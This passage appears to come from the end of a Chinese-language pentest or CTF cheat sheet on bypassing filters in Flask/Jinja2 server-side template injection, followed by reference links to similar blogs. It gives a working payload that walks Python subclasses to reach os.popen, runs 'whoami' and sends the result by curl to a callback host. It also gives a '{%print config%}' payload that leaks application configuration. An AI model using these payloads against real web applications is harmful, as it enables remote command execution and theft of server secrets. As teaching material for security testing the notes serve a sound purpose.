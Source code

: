 #### 过滤双花括号

```
#用{%%}标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
这样会没有回显,考虑带外或者盲注

# 用{%print%}标记,有回显
{%print config%}
```

#### 过滤下划线

和过滤字符串一样绕过即可

## 参考资料

[https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/#%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%A0%BC%E5%BC%8F%E5%8C%96](https://misakikata.github.io/2020/04/python-沙箱逃逸与SSTI/#字符串格式化)

[https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/](https://www.mi1k7ea.com/2019/05/31/Python沙箱逃逸小结/)

[https://xi4or0uji.github.io/2019/01/15/flask%E4%B9%8Bssti%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/#%E6%94%BB%E5%87%BB](https://xi4or0uji.github.io/2019/01/15/flask之ssti模板注入/#攻击)

[https://www.mi1k7ea.com/2019/06/02/%E6%B5%85%E6%9E%90Python-Flask-SSTI/](https://www.mi1k7ea.com/2019/06/02/浅析Python-Flask-SSTI/)

[https://xz.aliyun.com/t/52](https://xz.aliyun.com/t/52)

[https://hatboy.github.io/2018/04/19/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E6%80%BB%E7%BB%93](https://hatboy.github.io/2018/04/19/Python沙箱逃逸总结)
